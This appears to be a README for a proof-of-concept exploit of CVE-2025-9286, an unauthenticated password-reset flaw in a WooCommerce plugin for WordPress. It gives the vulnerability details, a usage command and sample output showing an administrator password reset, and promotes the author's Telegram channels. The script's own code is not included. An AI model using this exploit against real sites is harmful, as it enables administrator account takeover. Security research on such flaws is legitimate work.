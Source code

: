 # CVE-2025-9286
Appy Pie Connect for WooCommerce &lt;= 1.1.2 - Missing Authorization to Unauthenticated Privilege Escalation
# ⚠️ Appy Pie Connect for WooCommerce <= 1.1.2 - Missing Authorization to Unauthenticated Privilege Escalation via reset_user_password

## 📝 Description

The Appy Pie Connect for WooCommerce plugin for WordPress is vulnerable to Privilege Escalation due to missing authorization within the `reset_user_password()` REST handler in all versions up to, and including, 1.1.2.  
This makes it possible for unauthenticated attackers to reset the password of arbitrary users, including administrators, thereby gaining administrative access.

- **CVE:** CVE-2025-9286  
- **CVSS:** 9.8 (Critical)

---

## 💻 Exploit Script

The following exploit can be used to leverage CVE-2025-9286 against WordPress sites running the vulnerable plugin version.

**Script Name:** `CVE-2025-9286.py`

### ⚙️ Usage

```bash
python CVE-2025-9286.py -u http://nxploit.ddev.site/ -id 1
```

### 🟢 Sample Output (Successful Exploitation)

```
[+] Checking plugin version: http://nxploit.ddev.site/wp-content/plugins/appy-pie-connect-for-woocommerce/readme.txt
[!] Vulnerable plugin detected (1.1.2). Attempting exploitation...
[*] Please wait, attempting to change password...
[+] Exploit successful! Password has been reset.
[*] New password: Nxploited
[+] Vulnerability exploited and password changed successfully.
```

---

## 📬 Contact & Community

- 📨 **Telegram:** [@Kxploit](https://t.me/Kxploit)
- 📡 **Telegram Channel:** [@KNxploited](https://t.me/KNxploited)

---

## ⚠️ Disclaimer

This exploit is for **educational and authorized penetration testing** purposes only.  
Unauthorized use against systems without explicit permission is illegal.  
The author is not responsible for any misuse or damage caused by this tool.

---

***By: Khaled Alenazi (Nxploited)***
